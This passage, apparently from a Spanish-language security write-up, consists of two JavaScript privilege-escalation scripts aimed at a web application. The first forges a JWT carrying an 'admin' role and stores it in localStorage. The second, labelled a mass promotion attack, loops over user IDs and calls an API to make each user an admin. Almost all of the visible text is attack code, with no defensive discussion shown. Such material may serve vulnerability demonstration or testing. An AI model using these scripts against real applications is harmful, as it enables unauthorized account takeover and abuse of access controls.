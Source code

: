 ```javascript
      ...currentUserData,
      role: 'admin',
      iat: Math.floor(Date.now() / 1000),
      exp: Math.floor(Date.now() / 1000) + (24 * 60 * 60)
    };
    
    const header = btoa(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
    const payload = btoa(JSON.stringify(newPayload));
    const signature = btoa(`signature_with_${secret}`);
    const newToken = `${header}.${payload}.${signature}`;
    
    localStorage.setItem('token', newToken);
    
    console.log("🔄 Token actualizado con nuevos privilegios");
    console.log("✅ Recarga la página para usar privilegios de admin");
    
  } else {
    console.log("❌ Usuario no encontrado en base de datos");
  }
};

// Ejecutar auto-promoción
promoteToAdmin();
```

#### **Método 2: Ataque Masivo de Promoción**
```javascript
// Script para convertir todos los usuarios en admins
const promoteAllUsers = async () => {
  console.log("🚨 INICIANDO ATAQUE MASIVO DE PROMOCIÓN");
  
  const results = [];
  
  for (let userId = 1; userId <= 4; userId++) {
    try {
      await api.updateUserRole(userId, 'admin');
      results.push({ userId, status: 'success', message: 'Promoted to admin' });
      console.log(`✅ Usuario ${userId} promovido a admin`);
    } catch (error) {
      results.push({ userId, status: 'failed', message: error.message });
      console.log(`❌ Falló promover usuario ${userId}: ${error.message}`);
    }
  }
  
  console.log("📊 RESULTADOS DEL ATAQUE:");
  console.table(results);
  
  return results;
};

// Ejecutar ataque masivo
promoteAllUsers();
```
